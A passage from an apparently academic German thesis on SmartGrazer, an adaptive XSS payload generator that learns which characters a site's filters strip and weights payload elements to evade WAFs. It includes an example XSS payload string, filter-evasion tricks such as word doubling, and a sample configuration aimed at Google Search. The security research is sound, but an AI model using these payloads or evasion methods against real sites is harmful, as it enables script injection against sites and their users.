Zusätzlich besteht die Möglichkeit, eine weitere Aktion, d.h. einen Request, an das SUT zu senden, um sich beispielsweise einzuloggen. Dies wird mittels einer Vorbedingungsaktion ``precondition'' realisiert. Ein Beispiel mit verschiedenen Parametertypen und Vorbedingungen ist im Anhang \ref{lst:full-sut-config} zu finden.

\subsection{SUT-Konfigurationsdatei}
Ein Minimalbeispiel einer solchen SUT-Konfiguration ist in Quelltextbeispiel \ref{lst:minimal-example-SUT} aufgeführt. Jede SUT-Konfiguration hat als Wurzelknoten den Schlüssel ``runconfig'', gefolgt von einer Konfiguration für einen validen Durchlauf. Der valide Durchlauf dient der Applikation als Basis, um später gesendete Payloads zu ermitteln und vergleichen zu können. Im gezeigten Beispiel ist eine Konfiguration für die Google-Suche gegeben. Im Parameter target wird die \ac{URL} des SUT angegeben. Weitere Parameter vom Typ GET und POST, sowie Cookies können unter dem Punkt ``params'' entsprechend hinzugefügt werden.

\begin{lstlisting}[caption={SmartGrazer: Grundaufbau einer SUT-Konfigurationsdatei},label=lst:minimal-example-SUT]
{
  "runconfig": {
    "valid": {
      "action": {
      "filesuffix": "valid",
      "target": "https://www.google.de/search",
      "params": {
        "get": {
          "q": "PAYLOAD"
        }
      }
    },
    "PAYLOAD": "#smartgrazer"
  },
  "attack": {
    "action": {
      "filesuffix": "attack",
      "target": "https://www.google.de/search",
        "params": {
          "get": {
            "q": "PAYLOAD"
          }
        }
} } } }
\end{lstlisting}


\FloatBarrier % (✔
\newpage
\section{Analysierungsphase}\label{sec:analyze}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.75\textwidth]{contents/images/SmartGrazerSectionAnalyze}
	\caption{SmartGrazer: Auszug Analysierungsphase}
	\label{fig:SmartGrazerSectionAnalyze}
\end{figure}

Für die Analysephase ist es wichtig, Vergleichsdaten für die Antworten der Webseite zu haben. Aus diesem Grund wurde eine dritte Generator-Klasse implementiert, die fest definierte Anfragen erzeugt. Dieser Generator wird im Folgenden als ``Simpy'' bezeichnet. Die von Simpy generierten Payloads dienen der Initialisierung und Anpassung der Lebenspunkte der Element-Datenbank von SmartGrazer. Hierdurch ist es möglich, Smarty noch vor der ersten Generierungsrunde voreinzustellen.

Nachdem ein Payload an die SUT gesendet und die dazugehörige Antwort gepeichert wurde, beginnt die Analyse. Das Modul ``Annelysa'' übernimmt hierbei zwei Aufgaben. Zuerst wird anhand des Wissens aus der validen Anfrage und den Initialisierungs-Anfragen von Simpy die Position des Payloads bestimmt. Diese Position wird im weiteren Verlauf dazu verwendet, um nach dem zuletzt gesendeten Payload zu suchen. Die Position des Payloads ist wichtig, da Webseiten oft Benutzereingaben auf XSS-Angriffe durchsuchen und Elemente verändern oder entfernen, sodass nicht nach einer Übereinstimmung mit der Zeichenkette gesucht werden kann. Wenn die Position dem Analyse-Modul bekannt ist, kann anhand des originalen Payloads jedes Element einzeln untersucht und verglichen werden.

Annelysa ist zum jetzigen Stand der Implementierung darauf ausgelegt, dass die Webanwendung in jedem Fall den selben Seitenaufbau zurückliefert. Für Fälle, bei denen die Webseiten die bei Fehlern oder falschen Eingaben auf eine eigens dafür konzipierte Fehlerseite umgeleitet werden, ist SmartGrazer nicht ausgelegt.

\subsection{Textbasierte Suche} \label{ssec:textbase-search}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.9\textwidth]{contents/images/SmartGrazerTextBasedSearch}
	\caption{Ablaufdiagramm: Textbasierte Payload-Suche}
	\label{fig:textbasedsearch}
\end{figure}

Die bisherige Implementierung umfasst drei mögliche Szenarien der Webseiten-Antwort. Im ersten Fall wird die Payload-Zeichenkette ohne Modifikation vom Server reflektiert. Im zweiten Fall kann der Payload nicht direkt in der Antwort gefunden werden. Dies umfasst Elemente, welche durch die HTML-Entities-Kodierung ausgetauscht wurden. Besonders Zeichen, die Bestandteil von HTML oder JavaScript sind, werden durch diese Kodierung unbrauchbar. Der dritte Fall umfasst die Entfernung bestimmter Elemente aus dem Payload. Im zweiten und dritten Fall werden nach dem Erkennen eines veränderten oder fehlenden Elements, wie in Kapitel \ref{ssec:elementlifepoints} definiert, die Lebenspunkte verringert. Anschließend wiederholt sich die Suche für alle Elemente des im Generator gewählten Payloads.

Im optimalen Fall hat das \ac{SUT} keine Änderungen vorgenommen und den Payload reflektiert, sodass für kein Element die Lebenspunkte angepasst werden müssen. Sobald ein Element in der Antwort jedoch verändert oder entfernt wurde, gilt der Test als fehlgeschlagen. Nichtsdestotrotz werden alle Elemente der Antwort gesucht, da jede erkannte Änderung zu einer verbesserten Generierung in der nächsten Runde beiträgt.

\subsection{Ausführung des Payloads}\label{AusführungDesPayload}

Als weitere Testinstanz wird versucht, erfolgreich eingeschleuste Payloads auszuführen. Ein Payload, der zwar reflektiert worden ist, jedoch keine Auswirkung auf die Webseite hat, wird als Falsch-Positiv-Meldung bezeichnet.

% Warum Ausführung sinnvoll
Solche Payloads werden vom Programm als valide bzw. erfolgreich bewertet, bringen dem Nutzer bzw. Tester aber keinen Mehrwert. Wenn der gelieferte Payload bereits ausgeführt und getestet worden ist, kann der Tester eine erweiterte Version des Payloads mit alternativem JavaScript-Code erstellen, der mit Sicherheit funktioniert.

% Wie wird es gemacht
Realisiert wird das Testen der Ausführung durch Selenium\footnote{\url{http://www.seleniumhq.org/}}. Dieses Framework ist für automatisierte Browsertests konzipiert. Das Testen eines Payloads wird durch das vorherige Speichern der Antwortseite ermöglicht. Durch das automatische Laden der Antwortseite im Webbrowser wird zunächst das \ac{DOM} erstellt und anschließend der JavaScrip-Interpreter ausgelöst. Falls sich der Payload in einem aktiven JavaScript-Kontext befindet, wird dieser ausgeführt. Wurde nach dem Laden der Seite ein JavaScript Pop-up geöffnet, gilt der Payload als ausgeführt und ist somit funktionsfähig.

% Warum ggf. besser die Response zu rendern und nicht die gespeicherten Daten
Eine Ausführung zur Laufzeit, d.h. bei der ersten Anfrage an die Webanwendung, wäre der bisherigen Methode vorzuziehen. Jedoch ist dies bisher nicht möglich, da die technische Entwicklung noch nicht ausgereift ist.
Die Ausführung zur Laufzeit hat im Wesentlichen zwei Gründe:

\begin{enumerate}
	\item Bei stark dynamischen Webseiten wird JavaScript-Code aus Dateien eingebunden. Diese JavaScript-Quelltexte werden beim Speichern der Antwortseite nicht kopiert und fehlen dementsprechend beim späteren Laden der Webseite im Browser.
	\item Eine Auswertung zur Laufzeit könnte unnötige Anfragen an die Webseite reduzieren. Im Falle einer ``Wortverdoppelung'' (Bsp.: javajavascriptscript) wird durch Entfernen des Wortes ``javascript'' der Payload aktiviert und dadurch eventuell ausgeführt. Die bisherige Implementierung von SmartGrazer erkennt eine Veränderung und überspringt somit die Ausführung des betroffenen Payloads.
	Dieser Fall würde zu weiteren Anfragen führen, obwohl bereits ein Payload funktionsfähig war.
\end{enumerate} % (✔
\section{Anpassungsphase}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.75\textwidth]{contents/images/SmartGrazerSectionAdjust}
	\caption{SmartGrazer: Auszug Anpassungsphase}
	\label{fig:SmartGrazerSectionAdjust}
\end{figure}

Nach der Analysephase wird, sofern kein gültiger Payload gefunden wurde, die Liste der veränderten Elemente zurück an den Smarty-Generator übergeben. Dieser aktualisiert seine Element-Datenbank und generiert anhand der neuen Lebenspunkte weitere Payloads. Im Folgenden wird erläutert, wie die Gewichtung bei der Payload-Generierung implementiert wurde.

\subsection{Gewichtung der Elemente}\label{ssec:elementlifepoints}

Durch eine Gewichtung der Elemente lässt sich die Wahrscheinlichkeit, dass ein Element erneut gezogen wird, beeinflussen. Dementsprechend ist gewollt, dass entfernte oder veränderte Bestandteile von Payloads weniger häufig gewählt werden. Anhand der Gewichtung lässt sich im weiteren Verlauf das Potential eines Payloads errechnen. Dies hat zur Folge, dass Payloads quantitativ vergleichbar werden.

%Als Gewichtung wird ein Attribut definiert, welches abbildet, wie wahrscheinlich es ist, dass ein Element im generierten Payload verwendet wird. 
Für die Generierung wird ein zusätzliches Attribut definiert. Dieses bildet die Wahrscheinlichkeit ab, dass ein Element im generierten Payload verwendet wird. Bezeichnet wird dieses Attribut im weiteren Verlauf als das Leben eines Elements. Wie bereits gezeigt, kann zum Beispiel das ``SPACE''-Element verschiedene Werte annehmen. Werden einige dieser Werte durch die SUT gefiltert oder verändert, soll der Generator die nicht geänderten Elemente priorisieren. Die Implementierung dieser priorisierten Ziehung wird in Kapitel \ref{ssec:weightedRandom} näher erläutert.

Bei der Initialisierung wird der Wert des Attributs auf eine Größe von maximal 100 Lebenspunkten  gesetzt. Zusätzlich ist definiert, dass das Leben eines Elements nicht unter eins fallen kann. Die Festlegung der oberen Grenze stellt zum Einen sicher, dass zu jedem Zeitpunk der Ausführung das maximale Potential einer Angriffsgrammatik bestimmt werden kann. Zum Anderen wird durch das Festlegen der unteren Grenze sichergestellt, dass kein Element aus der Generierung ausgeschlossen wird. Dies ist bei schlecht implementierten WAF vorteilhaft, weil diese komplette Zeichenketten, wie zum Beispiel ``\lstinline[language=html]!<script>!'' oder ``\lstinline[language=html]!</script>!'', aus Benutzereingaben herausfiltern. Durch das Erhalten von einem Lebenspunkt wird sichergestellt, dass die einzelnen Elemente \lstinline[language=html]!``<'', ``/'', ``script''! oder \lstinline[language=html]!``>''! auch in anderen Angriffsmustern wiederverwendet werden können. Ein entsprechendes Beispiel wird in Abbildung \ref{fig:SmartGrazerWeightedElementsKeepOne} gezeigt. In diesem Beispiel besteht die Element-Datenbank aus den Elementen im gelben Bereich. Durch das Senken der Lebenspunkte des Schrägstrich-Zeichens auf Null, werden dem oberen Payload dringend benötigte Elemente genommen.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerWeightedElementsKeepOne}
	\caption{SmartGrazer: Auswirkungen auf die Lebenspunkte}
	\label{fig:SmartGrazerWeightedElementsKeepOne}
\end{figure}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/ElementsDecreasingLifepoints}
	\caption{SmartGrazer: Verlauf der Lebenspunkte pro Senkung}
	\label{fig:decreasing-Lifepoints}
\end{figure}

In Abbildung \ref{fig:decreasing-Lifepoints} ist abgebildet, wie sich die Lebenspunkte bei einem Faktor von 0,75 verringern. Der Faktor bewirkt, dass die Lebenspunkte nach den ersten drei Generierungsrunden unter 50\% fallen, insgesamt jedoch 16 Runden nötig sind um die Lebenspunkte auf eins zu senken.

\FloatBarrier

\paragraph{Beispiel:} Um ein näheres Verständnis von der Funktionsweise der Gewichtung zu bekommen, wird Anhand der Abbildung \ref{fig:SmartGrazer-adjustmentExample} ein konstruiertes Beispiel betrachtet. In dem gezeigten Beispiel hat Smarty nur eine Payload-Definition zur Verfügung, damit die Veränderung der generierten Payloads nachvollzogen werden können. Das \ac{SUT} filtert alle doppelten und einfachen Anführungszeichen aus Benutzereingaben heraus, weitere Veränderungen an den Eingaben werden nicht vorgenommen.

Bei der ersten Generierungsrunde wurden alle Elemente mit 100 Lebenspunkten initialisiert und an SmartGrazer übergeben. Smarty generiert daraufhin einen Payload, der drei verschiedene Arten von Anführungszeichen enthält. Bei der Analyse ermittelt SmartGrazer die gefilterten Elemente und verringert deren Lebenspunkte wie in diesem Kapitel beschrieben.

In der zweiten Runde werden die gefilterten Elemente ebenfalls im Payload verwendet und wiederholt herausgefiltert.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerAdjustmentExample}
	\caption{Beispiel: Gewichtung von Elementen}
	\label{fig:SmartGrazer-adjustmentExample}
\end{figure}

Für die letzte Runde werden Anführungszeichen verwendet, deren Lebenspunkte nicht verringert worden sind. Da keine Elemente verändert wurden, beendet SmartGrazer die Generierung und gibt den gefundenen Payload zurück.

\FloatBarrier
\subsubsection{Payload-Potentiale:}

Das Potential eines Payloads setzt sich aus der Summe der Lebenswerte seiner enthaltenen Elemente zusammen. Hierbei wird zunächst die Summe der maximalen Leben errechnet. Anschließend wird der tatsächliche Lebenswert aller Elemente zusammengezählt. Durch Division der beiden Werte, wie in Abbildung \ref{fig:payloadgrammarpotential} dargestellt, errechnet sich das Potential des Payloads. Gegeben sind die Elemente der Payload-Zeichenkette: \lstinline[language=html]!"><a\tonclick =alert\v('53')>)!. Hierbei wird das maximale Leben des Payloads mit der Formel \lstinline[language=html]!maxLife = 100 * sum(elements)! berechnet. Das tatsächliche Leben der enthaltenen Elemente errechnet sich durch einfaches aufaddieren der Lebenspunkte. Im gegebenen Beispiel ergeben sich dementsprechend die Werte \lstinline[language=html]!maxLife = 1600! und \lstinline[language=html]!currentLife = 1363!. Mittels einer Division der beiden Werte errechnet sich dann das Potential des Payloads. Im aktuellen Beispiel beträgt dieser \lstinline[language=html]!0,85! (gerundet). Dieser Wert wird während der Generierung errechnet und mit dem anderer Payloads verglichen, sodass aus mehreren Payloads der am besten geeignete Kandidat an die Webseite gesendet wird.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/PayloadGrammerPotential.jpg}
	\caption{Beispiel: Errechnung des Payload-Potentials}
	\label{fig:payloadgrammarpotential}
\end{figure}


\subsubsection{Wahl eines Payloads mit größtem Erfolgspotential:}

Smarty erstellt in jeder Generierungsrunde zunächst drei Payloads aus den verfügbaren Mustern und errechnet den Payload mit dem größten Potential, wie in Abbildung \ref{fig:payloadgrammarpotential} dargestellt. Ein Struktogramm des Algorithmus ist in Abbildung \ref{fig:StructoGetWithMostPotential} dargestellt.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=.62\textwidth]{contents/images/StructoGetWithMostPotential}
	\caption{Struktogramm: getWithMostPotential}
	\label{fig:StructoGetWithMostPotential}
\end{figure}

\subsubsection{Gewichteter Zufall bei Elementen}\label{ssec:weightedRandom}

Bei allen Elementen mit mehreren möglichen Zeichen bzw. Zeichenketten, wie zum Beispiel den HTML-Tags oder Events, wird eine gewichtete Zufallsziehung durchgeführt, wie im Struktogramm \ref{fig:StructoPickWeightedRandom} dargestellt.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.80\textwidth]{contents/images/StructoPickWeightedRandom}
	\caption{Struktogramm: pickWeightedRandom}
	\label{fig:StructoPickWeightedRandom}
\end{figure}

\FloatBarrier
In Abbildung \ref{fig:SmartGrazer-weightedRandomExample} ist ein konstruiertes Beispiel mit niedrigen Lebenspunkten abgebildet. Gegeben sind drei Elemente für Anführungszeichen mit jeweils einem, zwei und drei Lebenspunkten. Der Algorithmus sortiert zunächst alle Einträge einer Liste absteigend anhand der Lebenspunkte und berechnet anschließend, wie viel Lebenspunkte alle Elemente der gegebenen Liste zusammen enthalten. Im nächsten Schritt wird eine zufällige Zahl zwischen 0 und einschließlich der maximalen Lebenspunktezahl + 1 errechnet.

Zuletzt wird die Liste durchlaufen und die ``currentSum''-Variable um den Wert der Lebenspunkte des aktuellen Elements erhöht. Sobald ``currentSum'' größer oder gleich groß ist, wie der zufällig gezogene Wert, wird das aktuelle Element zurückgegeben.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.60\textwidth]{contents/images/SmartGrazerWeightedRandomExample}
	\caption{Beispiel: Gewichtete Zufallsziehung }
	\label{fig:SmartGrazer-weightedRandomExample}
\end{figure} % (✔
\newpage
\section{Implementierungsdetails} \label{sec:implementation_misc}

In folgendem Kapitel wird die Implementierung der Anwendung näher beschrieben. Hierzu wird zunächst in Kapitel \ref{ssec:payload-generation} der Programmablauf näher betrachtet. Im Anschluss daran werden in \ref{ssec:components} die entwickelten Komponenten, Klassen sowie Designentscheidungen erläutert. Zuletzt wird in den Kapiteln \ref{ssec:initializing} und \ref{ssec:configuration} erläutert, wie die Initialisierungsphase und Konfiguration der Anwendung gesteuert werden können.

\subsection{Programmablauf}\label{ssec:payload-generation}
Im weiteren Verlauf der Arbeit wird davon ausgegangen, dass eine SUT-Konfiguration gegeben ist. Dies hat zur Folge, dass der Programmablauf von SmartGrazer dem Ablaufdiagramm aus Abbildung \ref{fig:SmartGrazerWorkflowPhases} entspricht. Das Ablaufdiagramm und dessen einzelne Phasen werden im Folgenden genauer betrachtet.

Die gezeigten Phasen finden nach der Initialisierung des Programms statt. Phase eins (Abbildung \ref{fig:SmartGrazer-workflow-phase1}) umfasst das Senden einer validen Anfrage und deren Analyse. Zusätzlich wird in dieser Phase ein Response-Objekt erstellt, mit dem im weiteren Verlauf des Testlaufs gearbeitet wird.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=.95\textwidth]{contents/images/SmartGrazerWorkflowPhase1}
	\caption{SmartGrazer: Programmablauf Phase 1}
	\label{fig:SmartGrazer-workflow-phase1}
\end{figure}

\FloatBarrier

In der zweiten Phase (Abbildung \ref{fig:SmartGrazer-workflow-phase2}) werden mehrerer Anfragen gesendet, um die ersten Anpassungen der Elemente vorzunehmen. Eine dieser Anfragen umfasst eine Liste von Sonderzeichen. Die in dieser Phase verwendeten Payloads werden statisch definiert und gelten in jedem Durchlauf von SmartGrazer. Der verwendete Generator ``Simpy'' konfiguriert die ersten Elemente für den eigentlichen Payload-Generator ``Smarty'' vor.

\begin{figure}[htbp] 
	\centering
